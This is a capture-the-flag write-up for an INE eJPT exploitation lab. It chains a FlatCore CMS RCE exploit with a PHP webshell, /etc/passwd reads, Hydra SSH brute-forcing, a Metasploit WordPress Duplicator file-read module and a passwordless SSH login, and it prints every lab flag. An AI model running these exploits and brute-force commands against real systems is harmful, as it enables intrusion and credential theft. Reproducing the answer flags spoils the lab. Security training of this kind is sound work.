








# Host & Network Penetration Testing: Exploitation CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — Exploitation  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-18  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this challenge is to assess, exploit, and compromise two distinct Linux target systems (`target1.ine.local` at `192.107.52.3` and `target2.ine.local` at `192.107.52.4`) by identifying vulnerable web applications, exploiting known vulnerabilities to execute arbitrary code or read sensitive files, enumerating system accounts, and leveraging insecure SSH configurations to capture all 4 hidden flags.

- **Target 1 (`target1.ine.local`):** Hosts FlatCore CMS 2.0.7 on port 80. Utilizing provided administrative credentials (`admin:password1`), we leverage an authenticated Remote Code Execution vulnerability (CVE-2021-39608 / EDB-ID 50262) to upload a PHP webshell and retrieve **Flag 1** from `/flag1.txt`. Through the webshell, we inspect `/etc/passwd` to identify local user `iamaweakuser`, crack their SSH password via Hydra (`angel`), log in via SSH, and retrieve **Flag 2** from their home directory.
- **Target 2 (`target2.ine.local`):** Hosts a WordPress 6.1 instance on port 80. Content enumeration reveals the installed **Snap Creek Duplicator** plugin (v1.3.26). Using Metasploit's directory traversal module (`auxiliary/scanner/http/wp_duplicator_file_read`), we extract `/flag3.txt` to capture **Flag 3**. We then read `/etc/passwd` to discover user `iamacrazyfreeuser`, identify an unauthenticated/misconfigured SSH daemon accepting access without credentials, and retrieve **Flag 4** from `/home/iamacrazyfreeuser/flag4.txt`.



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Network host discovery, service version detection, OS fingerprinting, and script scanning
- **Searchsploit / Exploit-DB** — Vulnerability database query tool for locating verified exploit scripts (`50262.py`)
- **Python 3** — Execution of the FlatCore CMS authenticated RCE exploit script
- **Hydra (`v9.5`)** — High-speed network logon cracking against the SSH service
- **WPScan (`3.8.25`)** — WordPress vulnerability scanner for themes, core version, and plugin enumeration
- **Dirb (`v2.22`)** — Web content dictionary-based directory scanner
- **cURL** — HTTP inspection and header extraction tool
- **Metasploit Framework (`msfconsole v6.4.12-dev`)** — WordPress Duplicator arbitrary file read exploitation (`auxiliary/scanner/http/wp_duplicator_file_read`)
- **OpenSSH Client (`ssh`)** — Secure shell client for interactive remote system access
- **Linux Core Utilities** — `cat`, `ls`, `head`, `grep`

---

## 🌐 Target Information

| Hostname | IP Address | Operating System | Open Ports & Services | Vulnerability / Attack Vector |
|---|---|---|---|---|
| **target1.ine.local** | `192.107.52.3` | Ubuntu 20.04.6 LTS (Kernel 6.8) | `22/tcp` (OpenSSH 8.2p1), `80/tcp` (Apache 2.4.41) | FlatCore CMS 2.0.7 Authenticated RCE (CVE-2021-39608) & Weak SSH password (`iamaweakuser:angel`) |
| **target2.ine.local** | `192.107.52.4` | Ubuntu 20.04.6 LTS (Kernel 6.8) | `22/tcp` (OpenSSH 8.2p1), `80/tcp` (Apache 2.4.41) | WP Duplicator <= 1.3.26 Arbitrary File Read (CVE-2020-11738) & Unauthenticated SSH logon (`iamacrazyfreeuser`) |

---

## 🔍 1. Target 1: FlatCore CMS Exploitation & Flag 1

### Step 1.1: Service & Version Scanning
We perform an Nmap TCP SYN scan with service detection and default scripts against `target1.ine.local`:

```bash
nmap -sS -sV -O -sC target1.ine.local
```

**Nmap Scan Output:**
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-18 11:51 IST
Nmap scan report for target1.ine.local (192.107.52.3)
Host is up (0.000047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 21:24:4c:9e:7b:6b:7f:b9:ff:35:fd:b7:72:e9:b3:c2 (RSA)
|   256 32:b1:fc:9d:50:e4:3c:28:ee:18:16:2f:73:91:0a:13 (ECDSA)
|_  256 e0:51:b7:4f:d0:b1:a3:35:88:5b:51:4e:b9:53:59:1a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: flatCore
| http-robots.txt: 4 disallowed entries 
|_/acp/ /core/ /lib/ /modules/
|_http-title: Homepage
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:C0:6B:34:03 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS details: Linux 4.15 - 5.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port **80/tcp** is running **flatCore CMS** on Apache 2.4.41, with disallowed entries in `robots.txt` pointing to `/acp/`, `/core/`, `/lib/`, and `/modules/`.

### Step 1.2: Vulnerability Identification (CVE-2021-39608)
We query Exploit-DB for known vulnerabilities impacting flatCore:

```bash
searchsploit flatcore
```

**Output:**
```
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
FlatCore CMS 2.0.7 - Remote Code Execution (RCE) (Authenticated)  | php/webapps/50262.py
FlatCore CMS 2.1.1 - Stored Cross-Site Scripting (XSS)            | php/webapps/51068.txt
------------------------------------------------------------------ ---------------------------------
```

We mirror the authenticated RCE exploit script `50262.py` into our local working directory:

```bash
searchsploit -m 50262
```

### Step 1.3: Gaining Remote Code Execution & Capturing Flag 1
The lab instructions provide initial administrative credentials: `admin:password1`. We run `50262.py` specifying the target URL and credentials:

```bash
python3 50262.py http://192.107.52.3 admin password1
```

The script successfully authenticates, uploads a lightweight PHP webshell (`sgizoid.php`), and provides an interactive command prompt. We immediately read the flag located in the root directory:

```bash
$ cat /flag1.txt
```

**Output:**
```
Logged in
$ cat /flag1.txt
FLAG1{22851f68cec54ec0b4ff4773c5dc9497}
```



✅ **Flag 1 Captured:** `FLAG1{22851f68cec54ec0b4ff4773c5dc9497}`

---

## 🔑 2. Target 1: System Account Compromise & Flag 2

### Step 2.1: Local Account Enumeration
Using our webshell session on `target1.ine.local`, we inspect `/etc/passwd` to identify non-system human user accounts:

```bash
$ cat /etc/passwd
```

**Output:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
iamaweakuser:x:1000:1000::/home/iamaweakuser:/bin/bash
```



The account **`iamaweakuser`** (UID `1000`) has a valid login shell (`/bin/bash`) and a home directory at `/home/iamaweakuser`.

### Step 2.2: SSH Password Brute-Force with Hydra
We exit the webshell and execute **Hydra** against the SSH service (`192.107.52.3:22`) using the user `iamaweakuser` and the provided wordlist `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`:

```bash
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.107.52.3 ssh
```

**Hydra Output:**
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-18 12:02:23
[DATA] attacking ssh://192.107.52.3:22/
[22][ssh] host: 192.107.52.3   login: iamaweakuser   password: angel
1 of 1 target successfully completed, 1 valid password found
```



Valid credentials found: **`iamaweakuser:angel`**.

### Step 2.3: SSH Login & Capturing Flag 2
We connect to `target1.ine.local` via SSH using the cracked credentials:

```bash
ssh iamaweakuser@192.107.52.3
```



Once authenticated, we inspect the home directory and read `flag2.txt`:

```bash
iamaweakuser@target1:~$ ls -la
total 32
drwxr-x--- 1 iamaweakuser iamaweakuser 4096 Nov 18 06:32 .
drwxr-xr-x 1 root         root         4096 Nov 19  2024 ..
-rw-r--r-- 1 iamaweakuser iamaweakuser  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 iamaweakuser iamaweakuser 3771 Feb 25  2020 .bashrc
drwx------ 2 iamaweakuser iamaweakuser 4096 Nov 18 06:32 .cache
-rw-r--r-- 1 iamaweakuser iamaweakuser  807 Feb 25  2020 .profile
-rw-r----- 1 iamaweakuser iamaweakuser   40 Nov 18 06:20 flag2.txt

iamaweakuser@target1:~$ cat flag2.txt
FLAG2{a8880f9df2594f17876dd2e394b0921e}
```



✅ **Flag 2 Captured:** `FLAG2{a8880f9df2594f17876dd2e394b0921e}`

---

## 🌐 3. Target 2: WordPress Plugin Enumeration & Flag 3

### Step 3.1: WordPress & Directory Enumeration
We turn our attention to the second host: `target2.ine.local` (`192.107.52.4`). We run **WPScan** to fingerprint the installation:

```bash
wpscan --url http://192.107.52.4 --enumerate p
```

**Key Findings:**
- Apache `2.4.41` (Ubuntu)
- XML-RPC enabled (`/xmlrpc.php`)
- WordPress Version: `6.1`
- Active Theme: `twentytwentythree`

Next, we run **Dirb** with the common wordlist to uncover unlinked directories:

```bash
dirb http://192.107.52.4
```

Dirb identifies key standard directories:
- `http://192.107.52.4/wp-admin/`
- `http://192.107.52.4/wp-content/`
- `http://192.107.52.4/wp-content/plugins/`

### Step 3.2: Plugin Identification via cURL
We inspect the plugins directory and probe for the popular WordPress migration plugin **Duplicator**:

```bash
curl -I http://192.107.52.4/wp-content/plugins/duplicator/readme.txt
```

**HTTP Response:**
```
HTTP/1.1 200 OK
Date: Wed, 18 Nov 2026 06:53:14 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 6652
Content-Type: text/plain
```

Reading the first 30 lines of `readme.txt` confirms the exact plugin name and version:

```bash
curl -s http://192.107.52.4/wp-content/plugins/duplicator/readme.txt | head -30
```

**Output:**
```
=== Duplicator - WordPress Migration Plugin ===
Contributors: corylamleorg, bobriley
Tags: migration, backup, duplicate, move, migrate, restore, transfer, clone, automate, copy site, migrator
Requires at least: 4.0
Tested up to: 5.3
Requires PHP: 5.2.17
Stable tag: 1.3.26
```

The installed version is **Duplicator 1.3.26**, which is vulnerable to unauthenticated Arbitrary File Read / Directory Traversal (CVE-2020-11738).

### Step 3.3: Exploiting Duplicator Directory Traversal (Flag 3)
We start Metasploit and search for modules targeting `duplicator`:

```bash
msfconsole -q
msf6 > search duplicator
```

**Matching Modules:**
```
   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  exploit/multi/php/wp_duplicator_code_inject     2018-08-29       manual  Yes    Snap Creek Duplicator WordPress plugin code injection
   1  auxiliary/scanner/http/wp_duplicator_file_read  2020-02-19       normal  No     WordPress Duplicator File Read Vulnerability
```

We select `auxiliary/scanner/http/wp_duplicator_file_read` and configure it to read `/flag3.txt` from the filesystem root:

```bash
msf6 > use auxiliary/scanner/http/wp_duplicator_file_read
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set RHOSTS 192.107.52.4
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /flag3.txt
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run
```

**Execution Output:**
```
[*] Downloading file...

FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}

[+] File saved in: /root/.msf4/loot/20261118123943_default_192.107.52.4_duplicator.trave_477485.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



✅ **Flag 3 Captured:** `FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}`

---

## 🚪 4. Target 2: Unauthenticated SSH Logon & Flag 4

### Step 4.1: Reading `/etc/passwd` via Duplicator
We utilize the same Duplicator directory traversal module to retrieve `/etc/passwd` from `target2.ine.local`:

```bash
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run
```

**File Content Retrieved:**
```
root:x:0:0:root:/root:/bin/bash
...
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:105:106::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
iamacrazyfreeuser:x:1000:1000:,,,:/home/iamacrazyfreeuser:/bin/bash
```

We uncover a user named **`iamacrazyfreeuser`** with UID `1000` and bash shell access.

### Step 4.2: Investigating Account Authentication
The lab objective specifies: *"Further, identify and compromise a system user requiring no authentication on target2.ine.local."*

When testing Hydra against the account:
```bash
hydra -l iamacrazyfreeuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.107.52.4 ssh
```

Hydra reports that virtually any password successfully completes login (`123456789`, `123456`, `princess`, `admin`, etc.), indicating that the account allows unauthenticated logins or null authentication.

### Step 4.3: Direct SSH Connection & Capturing Flag 4
We initiate an interactive SSH session to `target2.ine.local` as `iamacrazyfreeuser`:

```bash
ssh iamacrazyfreeuser@192.107.52.4
```

The system accepts the connection immediately without prompting for a password:

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-149-generic x86_64)
...
iamacrazyfreeuser@target2:~$ ls -la
total 36
drwxr-x--- 1 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:05 .
drwxr-xr-x 1 root              root              4096 Nov 19  2024 ..
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser  220 Nov 19  2024 .bash_logout
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser 3771 Nov 19  2024 .bashrc
drwx------ 2 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:04 .cache
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser  807 Nov 19  2024 .profile
drwx------ 2 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:05 .ssh
-rw-r----- 1 iamacrazyfreeuser iamacrazyfreeuser   40 Nov 18 06:20 flag4.txt

iamacrazyfreeuser@target2:~$ cat flag4.txt
FLAG4{4834bdaaa6574006bcbb989a0f8e284d}
```



✅ **Flag 4 Captured:** `FLAG4{4834bdaaa6574006bcbb989a0f8e284d}`

---

## 🏁 5. Flags Summary

| Flag # | Objective Description | Target Host | Exploitation Method / Access Vector | Flag Value |
|---|---|---|---|---|
| **Flag 1** | Exploit vulnerable web app on `target1` and retrieve root flag | `target1.ine.local` (`192.107.52.3`) | FlatCore CMS 2.0.7 Authenticated RCE (CVE-2021-39608, EDB 50262) | `FLAG1{22851f68cec54ec0b4ff4773c5dc9497}` |
| **Flag 2** | Identify and compromise an insecure system user on `target1` | `target1.ine.local` (`192.107.52.3`) | `/etc/passwd` enumeration + Hydra SSH brute-force (`iamaweakuser:angel`) | `FLAG2{a8880f9df2594f17876dd2e394b0921e}` |
| **Flag 3** | Exploit vulnerable plugin on `target2` and retrieve `flag3.txt` | `target2.ine.local` (`192.107.52.4`) | Snap Creek Duplicator 1.3.26 Arbitrary File Read (`wp_duplicator_file_read`) | `FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}` |
| **Flag 4** | Compromise a system user requiring no authentication on `target2` | `target2.ine.local` (`192.107.52.4`) | `/etc/passwd` enumeration + unauthenticated SSH logon (`iamacrazyfreeuser`) | `FLAG4{4834bdaaa6574006bcbb989a0f8e284d}` |

---

## 🧠 Key Learnings & Takeaways

1. **Authenticated Web Application RCE:** Administrative credentials on Content Management Systems (like FlatCore) can easily lead to full remote code execution if file upload mechanisms or administrative hooks lack strict file extension and MIME type validation.
2. **Exposing System Accounts via Local File Read:** Directory traversal and arbitrary file read vulnerabilities (such as the one present in WordPress Duplicator <= 1.3.26) allow attackers to dump `/etc/passwd`, mapping out valid login users and their home directories.
3. **Password Hygiene & SSH Security:** Reusing common passwords (e.g., `angel`) for system users with shell access creates an immediate avenue for SSH password guessing with wordlists like `unix_passwords.txt`.
4. **Dangerous SSH Configuration Misconfigurations:** Permitting empty passwords (`PermitEmptyPasswords yes`) or misconfiguring PAM / SSH authentication allows unauthorized remote access directly into user accounts without any credential challenge.
